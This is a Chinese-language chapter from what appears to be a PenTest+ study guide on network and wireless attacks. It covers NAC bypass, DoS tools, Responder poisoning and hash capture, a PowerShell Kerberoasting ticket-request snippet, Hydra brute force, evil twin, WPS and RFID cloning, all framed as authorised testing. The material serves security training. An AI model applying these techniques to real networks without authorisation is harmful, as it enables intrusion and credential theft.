*   基于 SNMP 陷阱的方法，查询交换机以确定新 MAC 地址何时出现在其连接端口之一上

想要绕过 NAC 的渗透测试人员需要确定目标网络中 NAC 系统正在使用的检测方法，然后可以利用这些信息来找出如何最好地尝试绕过 NAC。

不需要客户端软件而依赖设备 MAC 地址等信息的系统，有时可以通过在现有系统曾连接的同一端口上呈现克隆的 MAC 地址来绕过。同样，DHCP 代理可以通过使用网络已经信任的静态 IP 地址来绕过。

Kali Linux 提供了工具 `macchanger`，这是一种更改 Kali 系统 MAC 地址的简便方法，包括匹配已知供应商 MAC 前缀以及设置任意或随机 MAC 地址的功能。这使得使用 Kali 系统尝试击败依赖 MAC 地址作为其安全控制一部分的系统变得非常容易。

## DoS 攻击和压力测试

对于许多渗透测试，交接规则明确禁止故意的拒绝服务（DoS）攻击，尤其是针对生产环境。但并非总是如此，有些交接会允许甚至要求 DoS 攻击，特别是如果客户组织希望充分了解其抵御此类攻击的能力。DoS 攻击主要有三种类型：

*   应用层拒绝服务攻击旨在使服务或整个服务器崩溃。

*   基于协议的拒绝服务攻击利用协议中的缺陷。SYN 洪水攻击是基于协议的拒绝服务攻击的经典示例。

*   基于流量的拒绝服务攻击仅通过发送比目标能处理的更多流量来试图压倒目标。


# 应用层 DoS 攻击

应用层 DoS 攻击最有可能在典型的渗透测试中意外发生，尤其是在尝试利用服务或应用程序中的漏洞时。这些非意外的 DoS 状况应在渗透测试的参与规则和通信计划中加以处理，如果测试针对生产环境进行，通常需要立即与客户组织的联系人进行沟通。

如果测试范围允许 DoS 攻击，渗透测试人员可以使用多种工具。除了商业负载测试和压力测试服务（有时称为“压力器”）之外，`Hping` 和 `Metasploit` 等安全测试工具可用于创建 DoS 状况。

与本书讨论的大多数技术一样，`Metasploit` 包含允许 DoS 攻击的内置模块。它们包括数十个模块，范围从特定于操作系统和服务的工具到通用 SYN 洪水模块。图 7.6 显示了 `/auxiliary/dos/tcp/synflood` 工具的使用情况，其中 `rhost` 和 `rport` 设置为 Metasploitable 易受攻击机器的 IP 地址和 HTTP 服务端口。您可以通过运行 `Wireshark`（或 `tcpdump`）来观察 SYN 洪水过程，以检查其影响。


FIGURE 7.6 Metasploit SYN flood

除了 `Metasploit` 内置的模块之外，常见的 DoS 工具还包括 HTTP Unbearable Load King (`HULK`)、Low Orbit Ion Cannon (`LOIC`) 和 High Orbit Ion Cannon (`HOIC`)、`SlowLoris` 以及各种其他工具。在针对客户组织使用此类工具之前，务必验证您拥有正确的目标和权限！

## 漏洞链

有时，单个漏洞利用可能不足以实现您的渗透测试目标。这时就需要用到 `漏洞链`。漏洞链是一个术语，用于描述使用多个漏洞利用来实现目标。漏洞链可能包括利用易受攻击的服务，然后使用本地服务帐户进行权限提升攻击。这些提升的权限可用于获取凭据，然后可用于访问其他系统或进行更多攻击或信息收集。在某些情况下，漏洞链也可能需要在服务或系统内完成单个攻击。为了考试目的，您需要知道漏洞利用通常不是一次性运行的，相反，您可能会在过程中使用多个漏洞利用。

# 利用 Windows 服务

Windows 仍然是世界上最流行的桌面操作系统，大多数企业都有大量的 Windows 服务器、桌面和笔记本电脑。这使得 Windows 成为一个特别有吸引力的目标。幸运的是，对于渗透测试人员来说，许多最常见的 Windows 服务都是有用的漏洞利用候选对象。

## NetBIOS 名称解析漏洞利用

在 Windows 网络中，最常被攻击的服务之一是 NetBIOS。NetBIOS 通常用于文件共享，但许多其他服务也依赖该协议。

### NETBIOS 名称服务和攻击

当 Windows 系统需要解析主机名的 IP 地址时，它们按以下顺序使用三种查找方法：

1. 位于 `C:\Windows\System32\drivers\etc\hosts` 的本地主机文件
2. DNS，首先通过本地缓存，然后通过 DNS 服务器
3. NetBIOS 名称服务 (`NBNS`)，首先通过 Link Local Multicast Name Resolution (`LLMNR`) 查询，然后通过 NetBIOS Name Service (`NBT‐NS`) 查询

乍一看，似乎很少有查询能超过前两个选项，但事实并非如此。许多，如果不是大多数，本地网络中本地系统（尤其是其他工作站和网络设备）没有 DNS 条目。域控制器或其他重要基础设施元素可能通过 DNS 解析，但许多 Windows 服务最终会回退到 NetBIOS 名称服务。这意味着，针对 NetBIOS 名称服务可能是出奇有效的攻击，如 图 7.7 所示。

Windows 通过 `LLMNR` 和 `NetBIOS` 向本地子网的广播地址发送广播查询，这为您提供了一个机会，可以用伪造的响应进行回应，将流量重定向到您选择的主机。作为独立的漏洞利用，这可能不是特别有效，但使用 `Responder` 等工具或 `Metasploot` 模块（如 `/auxiliary/spoof/nbns/nbns_response`）进行 SMB 欺骗，然后将其与 `Metasploit` 的 `/auxiliary/server/capture_smb` 等捕获工具配对以获取身份验证哈希，在支持不安全哈希方法的网络中可能是一个强大的选项。


FIGURE 7.7 NetBIOS name service attack

一旦捕获了哈希，您就可以重用哈希进行传递哈希（pass-the-hash）风格的攻击。然而，这需要更多的工作，因为通过 SMB 发送的哈希使用挑战进行加盐以防止重用。`Metasploit` 和其他旨在捕获 SMB 哈希的工具通过发送静态挑战并允许使用彩虹表来破解密码，从而击败了这种保护。

### 使用 Responder

`Responder` 是利用 NetBIOS 和 `LLMNR` 响应的强大工具。它可以针对单个系统或整个本地网络，允许您分析或响应 NetBIOS 名称服务、`LLMNR` 和多播 DNS 查询，伪装成查询所针对的系统。图 7.8 显示了 `Responder` 在默认模式下运行每个协议的毒化器，以及多个服务器。请注意能够提供包含 shell 的可执行文件下载，方法是提供 `EXE` 和 `HTML` 文件。


FIGURE 7.8 Responder sending poisoned answers

一旦 `Responder` 看到身份验证尝试，它将捕获哈希，如 图 7.9 所示。这是自动完成的，允许 `Responder` 在后台继续运行，同时您尝试其他漏洞利用或进行进一步的渗透测试工作。


FIGURE 7.9 Responder capturing hashes

一旦您捕获了凭据，如 图 7.9 所示，您还可以使用 `Responder` 将 `NTLM` 身份验证中继到目标；然后，如果您的攻击成功，您可以执行代码。在您获得对远程系统的访问权限后，`Responder` 工具内置的 `Mimikatz` 功能可用于收集更多凭据和哈希，允许您转向其他系统和服务。

## SMB 漏洞利用

Windows 中的服务器消息块 (`SMB`) 实现是渗透测试人员的另一个热门目标。其漏洞意味着未打补丁的系统可以相对容易地被利用；这些包括 2017 年发现的 Windows `SMB` 服务器中的关键远程代码执行漏洞 (`MS17‐010`，也称为 `EternalBlue`)。与大多数主要漏洞利用一样，`Metasploit` 包含一个针对 `EternalBlue` 漏洞的 `SMB` 漏洞利用模块。

# 识别和利用常见服务

虽然网络上存在许多常见服务，但 PenTest+ 考试特别要求考生熟悉 `SMB`、`SNMP`、`SMTP`、`FTP` 和 `DNS` 漏洞利用。您应该确保知道如何通过典型的服务端口和协议识别这些服务，并了解攻击每种服务的最常见方式。

## 识别和攻击服务目标


# 攻击服务

攻击服务意味着你首先需要识别那些潜在目标。我们在书中其他部分已经介绍了最常见的工具，但 PenTest+ 考试大纲也特别将它们与网络攻击联系起来。因此，在学习时，请思考如何将以下工具作为网络攻击的一部分来使用：

*   `Nmap` 通常用于识别开放端口和服务，为进一步探索提供初始目标列表。`Nmap` 通常与漏洞扫描工具配合使用，通过查找易受攻击的服务而不仅仅是识别它们，来提高渗透测试人员成功的机会，尽管 `Nmap` 本身可以提供关于服务版本的一些有用数据。

*   `Metasploit` 是渗透测试人员工具包中的关键工具。除了利用工具外，它还内置或集成了各种其他组件，包括漏洞扫描和端口扫描。`Metasploit` 广泛的内置利用程序及其在行业中的广泛使用意味着，你很可能能够为其找到现有的利用程序包，或者许多新漏洞的新利用程序将作为 `Metasploit` 包发布。

*   `Netcat` 的简单性可能掩盖了它的实用性。它常被称为网络瑞士军刀，因为它可以用于许多目的，从端口扫描到创建反向 shell 或启动自定义服务。由于可执行文件非常小，它也可以作为有效载荷利用程序很有用。

## SNMP 利用

简单网络管理协议 (SNMP) 通常用于收集有关网络设备的信息，包括配置和状态详细信息。虽然 SNMP 最常与交换机和路由器等网络设备相关联，但它也用于监控打印机、服务器和大量其他联网系统。SNMP 运行在 UDP 端口 161 上，使得在网络上轻松识别 SNMP 流量。

SNMP 将数据组织成称为 MIB（管理信息库）的层次结构。MIB 中的每个变量称为 OID（对象标识符）。此外，SNMP v1 和 v2 依赖于社区字符串来确定连接的用户是否可以读取、读写，或者仅发送称为“陷阱”的事件。

由于 SNMP 可以提供关于网络及其上特定设备的大量信息，它可能是渗透测试人员的重要目标。SNMP 利用的第一步之一是映射启用 SNMP 的设备网络。虽然端口扫描可以帮助提供哪些系统正在运行 SNMP 服务的信息，但可以使用专用工具收集更多信息。Kali Linux 包含 `snmpenum` 和 `snmpwalk` 以供此目的使用。

Figure 7.10 显示了针对普通家用路由器的 `snmpwalk` 输出；事实上，输出延伸了数页，泄露了系统的大部分当前配置和状态。如果系统没有使用 `public` 社区字符串，或者没有正确配置 SNMP v3 设置，这将不会如此容易地奏效！


FIGURE 7.10 Output from `snmpwalk`

一旦你知道哪些设备正在运行 SNMP 守护进程，就可以查询它们。这一轮 SNMP 查询的目标是确定配置的社区字符串，通常从 `public` 开始。如果可以确定读取社区字符串，则可以轻松收集设备信息。在配置不当的环境中，或者当管理员犯了错误时，甚至可能通过 SNMP 获得读写功能，允许你通过 SNMP 更改设备设置。但是，在大多数情况下，SNMP 攻击主要用于信息收集，而不是旨在破坏。

## SMTP 利用

简单邮件传输协议 (SMTP) 是发送电子邮件的协议。SMTP 运行在 TCP 端口 25 上，通常可以通过 telnet 到服务端口轻松识别。与 FTP 类似，SMTP 是一个非常古老的协议，内置安全性不高。这意味着它多年来一直是攻击目标，大多数运行 SMTP 服务器的组织都学会了加固它们以防止滥用，以免成为垃圾邮件中继而被列入黑名单。

这意味着对渗透测试人员最有用的 SMTP 利用通常与特定易受攻击的 SMTP 服务器版本相关联。因此，如果你遇到 SMTP 服务器，连接到它并收集横幅信息可能会提供足够的线索来确定它是否是易受攻击的服务。

SMTP 服务器也可以用于信息收集，方法是连接到它们并使用 `EXPN` 和 `VRFY` 命令。为此，只需 telnet 到 SMTP 服务器 `(` `telnet` [example.server.com](http://example.server.com) `25` `)`，连接后，输入 `VRFY [username]` 或 `EXPN [user_alias]`。如你所料，`Metasploit` 包含一个 SMTP 枚举工具作为其辅助扫描器列表的一部分；`auxiliary/scanner/smtp/smtp_enum` 将快速轻松地提供用户列表。

如果你能从受信任的系统或网络访问 SMTP 服务器，则 SMTP 服务器可能很有用。通过有效的电子邮件服务器发送看似来自受信任发件人的电子邮件，可以使社会工程攻击更有可能成功，即使目标组织中有一群警觉且清醒的最终用户。虽然探测 SMTP 服务器乍一看可能似乎不太有用，但这种信任意味着扫描和测试 SMTP 服务器可能很有用。

## FTP 利用

文件传输协议 (FTP) 自 1971 年以来一直存在，它仍然是一个明文、未加密的协议，运行在 TCP 端口 21 上，以及用于被动传输的更高临时 TCP 端口。从该描述中，你可能会期望它现在已经被安全服务和基于 HTTP 的文件传输完全取代。幸运的是，对于渗透测试人员来说，情况并非总是如此，FTP 服务器在世界各地仍在使用。

如果你能访问 FTP 网络流量，利用 FTP 非常简单。由于协议未加密，最简单的攻击是在线路上捕获用户名和密码，并使用它们登录目标系统或其他目标系统！

FTP 服务器本身也可能存在漏洞。许多主要 FTP 服务器中的关键漏洞随着时间的推移被发现，由于 FTP 是一项越来越被遗忘的服务，管理员可能没有关注他们运行的 FTP 服务。FTP 历史上已内置于许多嵌入式设备中，包括网络设备、打印机和其他类似机器。嵌入式 FTP 服务通常难以更新，如果不是不可能的话，也可能被遗忘，从而创造了攻击机会。

FTP 服务利用的最后一个途径是通过 FTP 服务本身的配置。配置不当或不正确的 FTP 服务器可能允许导航到其自身基目录之外。这使得一旦你拥有可用凭据，探索 FTP 服务器暴露的目录结构就很有用。由于许多 FTP 服务器历史上支持公共登录，你甚至可能无需特定凭据即可导航一些目录结构。这些公开可访问的目录有时可能是组织数据的宝库。

## Kerberoasting

服务帐户是存在于运行服务而不是允许用户登录的帐户。它们可以成为渗透测试人员的强大工具。因为服务帐户密码通常不会过期，破坏服务帐户可以为系统提供长期访问权限。


Kerberoasting 是一种依赖于请求服务主体名称（SPN）的服务票据的技术。这些票据使用与 SPN 关联的服务账户密码加密，这意味着一旦你使用类似 Mimikatz 的工具提取了服务票据，就可以使用离线破解工具破解票据以获取服务账户密码。

Kerberoasting 工具包位于 [`github.com/nidem/kerberoast`](https://github.com/nidem/kerberoast)。Kerberoasting 对较短、复杂度较低的密码最有效，因为它依赖于离线破解，当服务账户使用长密码时，这可能会很慢。

Kerberoasting 是一个四步过程：

1. 扫描 Active Directory 中设置了服务主体名称（SPN）的用户账户。

2. 使用 SPN 请求服务票据。

3. 从内存中提取服务票据并保存到文件。

4. 对服务票据中的密码进行离线暴力破解攻击。

要执行此技术过程，你需要检索 SPN 值。你可以使用 PowerSploit `Get-NetUser` 命令、PowerShell 命令来收集账户列表，或使用 Kerberoast 工具包。拥有 SPN 后，你可以通过 PowerShell 请求服务票据（TGS）。要拉取所有票据，代码非常简单：

```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' 
-Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken 
-ArgumentList $_.Context.PostContext[0].Trim() }  
```

票据提取可以使用 Mimikatz 中的 `kerberos::list/export` 命令轻松完成。一旦你拥有票据，就几乎准备好破解它们了，但首先你需要将票据转换为可破解的格式。这就是 `kirbi2john.py` 的作用。运行它后，你可以使用 John the Ripper 或其他破解工具破解票据。

如果你已获取服务账户的 NTLM 哈希，可以使用 Mimikatz 创建伪造的 Kerberos 服务票据，即“银票据”。该票据随后可用于获得对服务的进一步访问权限。

### Samba 漏洞

与 Microsoft 的 SMB 实现类似，Linux Samba 服务器被证明存在多种安全缺陷。2017 年发现的 SambaCry 漏洞允许在所有高于 Samba 3.5.0（2010 年代码发布）的 SMB 版本中执行远程代码！

由于 Samba 和 Microsoft SMB 使用相同的端口和协议，在尝试利用漏洞之前指纹操作系统非常重要，以确保你使用的是适用于操作系统和服务器服务的正确漏洞利用。

#### SSH 漏洞

安全外壳协议（SSH）用于安全的命令行访问系统，通常通过 TCP 端口 22，并且存在于各种类型的设备和系统中。由于 SSH 非常普遍，攻击提供 SSH 服务的系统对渗透测试人员来说是一个非常有吸引力的选择。这也意味着大多数组织如果能够的话会迅速修补 SSH。不幸的是，对于许多组织来说，SSH 嵌入在各种设备中，在整个基础设施中更新 SSH 可能很困难。因此，渗透测试人员在审查漏洞扫描结果时应验证 SSH 和操作系统版本，以确定是否正在运行易受攻击的 SSH 版本。

攻击 SSH 等服务的另一种方法是使用类似 THC Hydra 的暴力破解工具（或等效的 Metasploit 模块）。Hydra 是一种可以通过密码猜测破解系统的暴力破解工具。在 Figure 7.11 中所示的示例中，Hydra 针对 Metasploitable 系统的 root 账户运行，使用 Kali 默认包含的 rockyou 密码列表。请注意 `‐t` 标志，用于设置目标的并行线程数。默认情况下，Hydra 使用 16，但此示例使用 4。


FIGURE 7.11 THC Hydra SSH brute‐force attack

一旦你拥有凭据，其他 Metasploit 模块（如 `ssh_login` 和 `ssh_login_pubkey` 模块）可以允许你在整个网络范围或可能的目标系统列表中测试它们。

### 密码攻击

密码攻击不仅在网络上进行，在许多情况下，渗透测试人员会先从基于网络的密码攻击开始以立足点。在子域 3.1 中涵盖的四种主要类型的密码攻击是你需要熟悉的：

*   *Brute-force* 攻击尝试使用算法不断尝试新密码来登录。虽然暴力破解可能应用一些基本规则，但这种攻击没有太多微妙之处，除非密码简单且在尝试过程中早期被命中，否则可能需要很长时间。暴力破解攻击也是最容易检测的攻击之一，因为系统可以查找重复的登录尝试以及尝试密码的变化，这些变化表明正在进行暴力破解攻击。

*   *Dictionary* 攻击比暴力破解攻击更具智能性，使用预构建的可能密码字典以及关于如何使用和修改该字典的规则。在组织可能有一组常见主题词，或者如果你想利用已经存在的常见密码列表的情况下，这种攻击有时可能比暴力破解攻击更成功。

*   *Hash cracking* 攻击依赖于使用可以根据捕获的哈希识别密码的工具。哈希可以通过密码转储工具、泄露或通过网络获取。一种用于哈希破解的强大工具是使用彩虹表，这些表是预生成的常见哈希数据库，使用预期的密码字符集和长度。查找哈希并找出导致该哈希的字符串比破解哈希的其他常见选项（即简单的暴力破解）快得多。

*   *Password spraying* 使用相同的密码针对多个系统、服务器或站点，然后转到列表中的下一个密码。密码喷洒攻击通常与泄露的密码相关联，这些密码可能用于多个目标上的个人账户，但也可以与密码字典和列表一起使用。

你将选择的密码攻击取决于你是否拥有或可以获取哈希或之前捕获的密码等信息，或者你是否没有任何现有信息。在决定使用哪种技术时，你还需要考虑被检测的可能性以及如何在进行密码攻击时避免被检测。

### 压力测试以确保可用性

压力测试（有时称为负载测试）可能包含在渗透测试中，以帮助确定目标系统和服务是否能够承受潜在的拒绝服务场景。Kali Linux 包含各种压力测试工具（位于漏洞分析 - 压力测试下），这些工具包括 HTTP、SSL、VoIP 和其他压力测试功能。

在将压力测试作为渗透测试的一部分时，值得与客户重新审查范围和流程。压力测试可能导致系统或服务中断，还可能填充日志文件或造成其他不必要的干扰。由于中断可能具有问题性和高成本，将进行压力测试或其他可能导致拒绝服务情况的测试的渗透测试人员通常会与客户制定通知流程，以便他们可以要求监控测试并在出现问题时停止测试。当然，如果压力测试是零知识攻击或更接近实际攻击者的攻击的一部分，这种事先通知可能不可行。

## 无线漏洞利用


无线网络和有线网络共享许多相同的功能、协议和行为，但有一些攻击方法专门用于无线网络、接入点和无线客户端。这些攻击关注无线设备如何连接到网络、如何进行身份验证，以及其他特定于无线网络的功能和能力。

## 攻击方法

当你考虑如何进行无线利用时，必须思考哪些攻击方法最适合你的需求，以及你可能能够完成哪些攻击。随着渗透测试的进行，你可能会获得额外的访问权限、信息或发现新的漏洞，这些答案可能会发生变化。

PenTest+ 考试要求你熟悉九种特定攻击方法的基础知识：

*   `Eavesdropping`，专注于捕获正在传输中的数据。这通常使用无线嗅探工具完成。

*   `Data modification` 攻击试图更改数据，并经常与其他攻击（例如中间人攻击）并行进行。

*   `Data corruption` 攻击专注于损坏数据或流量。去认证攻击可以依赖数据损坏来导致去认证/重新认证序列。

*   `Relay` 攻击是一种特定的中间人攻击类型，它接受数据，允许攻击者查看并可能修改数据，然后将数据转发到其原本预期的目标。

*   `Spoofing` 攻击提供虚假信息，旨在允许攻击者以各种形式冒充另一个系统或用户。系统可能会伪造其 MAC 地址等信息，以试图看起来像另一个系统，或者伪造 IP 地址、DNS 响应或其他信息以完成其任务。

*   `Deauthentication` 攻击发送伪造的数据包，试图让系统从合法接入点断开连接，让攻击者尝试让它们连接到恶意（孪生接入点）接入点，或者强制它们重新认证，从而允许针对认证流量的攻击或拦截。

*   `Jamming` 试图通过淹没或干扰连接来阻止流量流动。

*   `Capturing` 握手通常是去认证攻击的一部分。如果你能捕获握手，你可以尝试破解密码并从该过程中派生密钥。

*   `On‐path` 攻击专注于说服目标系统将流量通过攻击者控制的系统发送，从而允许中继攻击、流量监控和流量操纵。

## 寻找目标

无线渗透测试任务的目标查找通常意味着步行、驾车或以其他方式探索目标区域，以识别接入点、SSID 和相对功率等级，以帮助三角定位接入点和其他无线设备。与其他渗透测试活动类似，OSINT 也可以提供帮助。像 WiGLE 这样的无线网络数据库可以提供很大帮助。WiGLE，即无线地理日志引擎，是一个绘制全球 Wi-Fi 接入点的网站。图 7.12 显示了一个 WiGLE 地图示例，其中包含接入点的访问数据点。放大将显示单个 SSID，WiGLE 支持按地理位置、SSID、日期范围以及接入点是否可能提供免费可访问的 Wi-Fi 进行搜索。

## 攻击受限门户

受限门户在许多地点用于为无线网络提供有限的访问控制和授权功能。它们通常使用共享凭据，例如你可能在咖啡店黑板上看到的密码。它们还可能需要标识符和密码，例如酒店房间号、姓氏、密码组合，就像许多酒店使用的系统一样。


图 7.12 WiGLE 地图显示大都市区的接入点密度

受限门户不执行复杂的身份验证，通常依赖系统的 MAC 地址在连接验证后提供访问权限。这意味着遇到受限门户的渗透测试人员可能能够使用简单的无线 MAC 地址克隆来访问网络，同时看起来像是一个授权系统。

## 窃听、孪生接入点和无线中间人攻击

`Evil twin` 攻击通过创建虚假接入点来工作，毫无戒心的用户会连接到这些接入点。这使它们对于中间人攻击很有用，就像本章前面讨论的那些攻击一样。虽然可以创建受保护接入点的孪生接入点，但更高级的用户可能会注意到差异，例如需要接受新的安全证书或其他更改。

孪生接入点也可用于降级攻击，这些攻击诱骗客户端使用不太安全的协议或加密方案。降级攻击不仅限于基于 802.11 的协议；研究人员使用降级攻击击败了许多家庭自动化和物联网 (IoT) 设备使用的 Z-Wave 协议中内置的保护，导致它们从现代且更安全的 S2 安全标准降级为许多设备也支持的 S0 标准。

渗透测试人员可以使用 Aircrack-ng 通过 `airbase-ng` 工具创建孪生接入点。该过程相对简单：

1.  捕获流量以确定合法接入点的 SSID 和 MAC 地址。

2.  使用 `airbase-ng` 克隆该接入点。

3.  执行去认证攻击。

4.  确保假冒接入点更强大（或更近！），因此当客户端尝试重新连接时会选择它。

5.  执行攻击，包括中间人攻击。

如你所见，这些攻击向接入点发送看起来来自有效客户端的去认证数据包。客户端随后将不得不重新认证或重新连接到接入点。

另一种进行孪生接入点攻击的方法是使用 `EAPHammer`，这是一种专门设计用于对 WPA2 Enterprise 模式网络进行孪生接入点攻击的工具。你可以在 [`github.com/s0lst1c3/eaphammer`](https://github.com/s0lst1c3/eaphammer) 找到关于 EAPHammer 及其设置方法的详细信息。对于 PenTest+ 考试的目的，你应该知道它主要用于以自动化方式设置孪生接入点网络，并且它可以执行受限门户攻击、进行密码喷洒，甚至可以针对预共享密钥环境进行自动化攻击。

需要注意的是，孪生接入点不一定与 `rogue access point` 是同一回事。rogue access point 是任何不应该出现在网络上的接入点。这可以简单到是一台打印机、物联网设备或路由器被插入并提供网络访问，也可以像专门设计的渗透测试设备一样恶意，该设备旨在渗透测试人员现场时秘密插入网络。rogue access point 可以配置为孪生接入点，但大多数都不是——事实上，孪生接入点更可能位于渗透测试人员或攻击者控制的其他网络上，以便他们能够对通过孪生接入点发送的流量拥有更大的控制权和洞察力。当然，这也意味着防御者不太可能看到来自孪生接入点设备的奇怪流量！

无论你的孪生接入点如何设置，一旦你成功进行了中间人攻击，你还可以通过捕获客户端与远程系统和服务之间的未加密流量来进行凭据收集。与有线连接使用的相同技术在这里也适用，并且存在相同的挑战：现代网络上的大多数认证流量都是加密的，这使得“在线上”（在此情况下通过无线连接）嗅探凭据变得更加困难。

### 攻击 WPS


# Wi-Fi Protected Setup (WPS) 安全问题

Wi‐Fi Protected Setup (WPS) 已知存在多年问题，但由于设置简便，尤其是在消费级无线设备中，它仍在使用。与输入预共享密钥或密码相比，只需按一下按钮即可设置打印机，这看起来很有吸引力。不幸的是，一种 WPS 设置模式需要 8 位 PIN 码，而由于 WPS 验证 PIN 码的方法不安全，该 PIN 码很容易被破解。WPS 密码可能遭受“仙女粉尘攻击”（pixie dust attack），这是一种针对 WPS 密钥进行暴力破解的攻击类型。易受攻击的路由器可能会被利用，因为许多路由器在其预共享密钥随机数的选择算法上存在缺陷。

像 `Reaver` 这样的工具旨在利用 WPS 握手过程。事实上，即使路由器或接入点未使用过 WPS 设置按钮，`Reaver` 也能正常工作！

`Reaver` 通过暴力破解 WPS 设置 PIN 码（WPS 协议对此防护不足）来工作。这意味着允许 WPS 的网络在有足够时间的情况下可能被暴力破解。由于协议的实现方式，`Reaver` 最多只需暴力破解 11,000 个可能的 PIN 码——在大多数情况下，尝试次数会远少于此。

除了此缺陷之外，`Reaver` 还可以尝试“仙女粉尘攻击”，该攻击针对接入点的加密不佳的 PIN 码，允许对其进行离线暴力破解攻击。“仙女粉尘攻击”比 `Reaver` 针对 WPS 设置 PIN 码的暴力破解方法耗时更少。

你可以在 [`github.com/t6x/reaver-wps-fork-t6x`](https://github.com/t6x/reaver-wps-fork-t6x) 上阅读更多关于 `Reaver` 的信息。

## 蓝牙攻击

蓝牙攻击对于拥有本地网络物理访问权限，或能进入目标计算机、手机、车辆或其他蓝牙设备范围的渗透测试人员来说可能很有用。对于 PenTest+ 考试，你需要了解两种常见的蓝牙攻击方法：

*   `Bluesnarfing`，即从蓝牙设备窃取信息。Kali 包含 `bluesnarfer` 软件包，在给定设备 ID 或地址的情况下，允许通过蓝牙窃取电话簿联系人。

*   `Bluejacking`，即通过蓝牙设备发送未经请求的消息。

发现蓝牙设备可能是渗透测试的一部分，但关于蓝牙设备大规模利用的广泛担忧并未导致现实世界中的重大问题。蓝牙是进入系统的潜在途径，应予以记录，但对于大多数渗透测试来说，它不太可能成为主要的利用方法。

蓝牙低能耗是该协议的一种省电版本，用于许多 IoT 设备以帮助节省电池寿命。`Bluetooth Low Energy (BLE)` 攻击是一个相对较新的问题；然而，针对该协议的攻击数量正在增加。2020 年宣布的 `BLESA`（即蓝牙低能耗伪造攻击）凸显了这一日益严重的问题。`BLESA` 攻击利用设备重新连接时缺少必要的重新身份验证，并且由于此缺陷，虚假信息可以被输入到设备中。这意味着 IoT 和其他 BLE 设备可能会受到攻击，具体取决于它们使用的蓝牙软件。由于像这样的 IoT 和嵌入式设备通常难以修补，这为未来的渗透测试人员和攻击者利用它们留下了更多机会。

## NFC 和放大攻击

NFC，即近场通信，是用于极短距离通信的协议，通常用于支付系统。Google Pay 和 Apple Pay 均使用 NFC 的实现来进行支付，因此你很可能在日常生活中遇到过 NFC。PenTest+ 考试大纲在 NFC 的背景下涵盖了放大攻击。放大攻击可以使用天线和软件定义无线电系统等工具，也可以使用使 NFC 在牺牲速度的代价下更容错的协议更改，以允许更长距离的使用。这可以允许从隔离系统中窃取数据，或者允许捕获比通常可能的更远距离的 NFC 通信。

## 其他无线协议和系统

PenTest+ 考试目前不包括我们在此讨论之外的无线标准，但你应该确保审查你发现的关于组织无线功能的任何信息。在环境中发现专有或开放标准的无线设备相对常见，这些设备可能提供有趣的信息，甚至是进入网络的途径。捕获和解释这些协议的方法远远超出了本书的范围，但有许多团队和个人专注于这种逆向工程。你可以在 [`hackaday.com/tag/hackrf`](https://hackaday.com/tag/hackrf) 找到与这类工作相关的大量项目，以及像 2018 年 Blackhat 演示“Bringing Software Defined Radio to the Penetration Testing Community”这样的演示，可在以下网址找到：

[`www.blackhat.com/docs/us-14/materials/us-14-Picod-Bringing-Software-Defined-Radio-To-The-Penetration-Testing-Community-WP.pdf`](https://www.blackhat.com/docs/us-14/materials/us-14-Picod-Bringing-Software-Defined-Radio-To-The-Penetration-Testing-Community-WP.pdf)

## RFID 克隆

访问卡、身份证和类似令牌通常用于为设施提供访问控制。这使得克隆 RFID 卡成为渗透测试人员的有用方法。每种技术都依赖于射频 (RF)，但你可能会遇到三种主要类型的卡或设备：

*   低频 125–134.2 KHz RFID 卡，可以使用易于获取的克隆工具克隆到其他卡上。

*   高频 13.56 MHz 标签和卡。许多手机现在支持这种近场通信 (NFC) 功能，使得可以使用手机克隆卡片。

*   超高频标签的范围从 865 到 928 MHz 不等，并且在全球范围内各不相同，因为没有公认的国际标准。

图 7.13 展示了一种廉价的低频 RFID 克隆设备和标签。像这样的设备可以使克隆基于 RFID 的访问卡变得微不足道，而且由于 RFID 卡片在外观上通常是通用的，使用克隆卡片甚至像图中所示的钥匙扣可以使物理渗透测试变得简单得多。


图 7.13 RFID 克隆器和标签

## 干扰

无线 DoS 也可以是渗透测试人员的合法技术，但它不是一种常见技术。它可以用于防止访问无线设备，或防止设备与控制器或监控系统通信，这可能是渗透测试所要求的。随着无线 IoT 设备越来越常见，阻止它们与上游通信可能允许你避免被发现或防止发送警报。

## 中继

中继流量，或进行中继攻击，对于需要访问无线网络但无法保持在网络范围内的渗透测试人员来说可能很有用。定向天线可以提供帮助，但向远程网络添加隐藏的中继器可以允许流量在更长距离上进行中继。像 Pwnie Express Pwn Plug 这样的商业设备提供将设备部署到本地组织，然后连接到该设备以将攻击流量中继到本地网络的能力。

## 总结

现场渗透测试通常要求渗透测试人员获得有线或无线网络的访问权限。一旦获得访问权限，你就可以转向目标系统和服务，这些系统和服务可在你所在的网络段或你可能能够访问的其他网络段上访问。


获得访问权限可能只需插入一个不安全的网络接口或连接到一个开放的无线网络，但大多数组织都有更强的安全性。获得访问权限可能需要绕过网络访问控制（NAC）或对有线网络进行 VLAN 跳跃攻击。无线网络可能需要设置伪接入点、更改 MAC 地址或提供被盗凭据。

无线网络攻击所需的工具和技术与有线网络攻击不同。设置邪恶双胞胎或伪接入点以执行中间人攻击对渗透测试人员很有帮助。此外，了解如何使系统取消身份验证、如何从无线客户端收集凭据，以及如何利用特定弱点（例如 WPS 中的弱点），是渗透测试人员工具箱中的有用技能。了解如何针对 Wi-Fi 以外的无线技术（如蓝牙和 RFID），也可以帮助渗透测试人员获得物理访问权限或收集更多信息。

一旦渗透测试人员获得网络访问权限，凭据和相关信息就是首要的高价值目标。通过 ARP 欺骗进行中间人攻击可以使渗透测试人员能够进行进一步攻击，包括重放、中继、SSL 剥离和安全协议降级攻击。在这些攻击生效时，渗透测试人员可以获得凭据和访问权限，或者仅仅查看流量以了解更多关于组织及其服务的信息。

渗透测试人员必须能够进行各种攻击，例如链接 NetBIOS 名称服务中毒、NTLM 中继攻击以及针对常见服务的攻击，此外还要使用中间人攻击。针对这些易受攻击的服务需要了解服务的底层协议、用于运行每个服务的最常见软件包和服务的利用方法，以及可用于针对它们的渗透测试和审计工具。

Windows NetBIOS 和 SMB 服务是常见目标，因为 NTLM 哈希可以被窃取并在传递哈希攻击中重放，其他凭据数据可以使用专门的攻击方法获取。链路本地多播名称解析（LLMNR）和 NetBIOS 名称服务（NetBIOS-NS）中毒可以使渗透测试人员能够获得中间人位置，进一步增强其获取访问权限和信息的能力。

